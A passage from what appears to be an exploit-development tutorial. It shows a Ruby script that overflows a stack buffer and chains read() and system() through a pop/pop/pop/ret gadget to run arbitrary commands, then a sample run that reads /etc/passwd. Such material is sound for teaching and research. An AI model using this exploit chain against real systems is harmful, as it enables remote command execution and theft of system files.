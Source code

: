 ```
<span class="lnr">17 </span><span class="Comment"># From objdump, "pop/pop/pop/ret"</span>
<span class="lnr">18 </span>pppr_addr = <span class="Constant">0x080484b6</span>
<span class="lnr">19 </span>
<span class="lnr">20 </span><span class="Comment"># Generate the payload</span>
<span class="lnr">21 </span>payload = <span class="Special">"</span><span class="Constant">A</span><span class="Special">"</span>*<span class="Constant">140</span> +
<span class="lnr">22 </span>  [
<span class="lnr">23 </span>    <span class="Comment"># system()'s stack frame</span>
<span class="lnr">24 </span>    buf,         <span class="Comment"># writable memory (cmd buf)</span>
<span class="lnr">25 </span>    <span class="Constant">0x44444444</span>,  <span class="Comment"># system()'s return address</span>
<span class="lnr">26 </span>
<span class="lnr">27 </span>    <span class="Comment"># pop/pop/pop/ret's stack frame</span>
<span class="lnr">28 </span>    system_addr, <span class="Comment"># pop/pop/pop/ret's return address</span>
<span class="lnr">29 </span>
<span class="lnr">30 </span>    <span class="Comment"># read()'s stack frame</span>
<span class="lnr">31 </span>    cmd.length,  <span class="Comment"># number of bytes</span>
<span class="lnr">32 </span>    buf,         <span class="Comment"># writable memory (cmd buf)</span>
<span class="lnr">33 </span>    <span class="Constant">0</span>,           <span class="Comment"># stdin</span>
<span class="lnr">34 </span>    pppr_addr,   <span class="Comment"># read()'s return address</span>
<span class="lnr">35 </span>
<span class="lnr">36 </span>    read_addr <span class="Comment"># Overwrite the original return</span>
<span class="lnr">37 </span>  ].reverse.pack(<span class="Special">"</span><span class="Constant">I*</span><span class="Special">"</span>) <span class="Comment"># Convert a series of 'ints' to a string</span>
<span class="lnr">38 </span>
<span class="lnr">39 </span><span class="Comment"># Write the 'exploit' payload</span>
<span class="lnr">40 </span>s.write(payload)
<span class="lnr">41 </span>
<span class="lnr">42 </span><span class="Comment"># When our payload calls read() the first time, this is read</span>
<span class="lnr">43 </span>s.write(cmd)
<span class="lnr">44 </span>
<span class="lnr">45 </span><span class="Comment"># Read the response from the command and print it to the screen</span>
<span class="lnr">46 </span>puts(s.read)
<span class="lnr">47 </span>
<span class="lnr">48 </span><span class="Comment"># Clean up</span>
<span class="lnr">49 </span>s.close()
```

And when we run it, we get the expected result:

```

<span class="lnr">1 </span><span class="Identifier">$ ruby sploit.rb "cat /etc/passwd"</span>
<span class="lnr">2 </span><span class="Identifier">root</span><span class="Normal">:</span><span class="Special">x</span><span class="Normal">:</span><span class="Constant">0</span><span class="Normal">:</span><span class="Constant">0</span><span class="Normal">:</span><span class="Comment">root</span><span class="Normal">:</span><span class="Type">/root</span><span class="Normal">:</span><span class="Statement">/bin/bash</span>
<span class="lnr">3 </span><span class="Identifier">daemon</span><span class="Normal">:</span><span class="Special">x</span><span class="Normal">:</span><span class="Constant">1</span><span class="Normal">:</span><span class="Constant">1</span><span class="Normal">:</span><span class="Comment">daemon</span><span class="Normal">:</span><span class="Type">/usr/sbin</span><span class="Normal">:</span><span class="Statement">/bin/sh</span>
```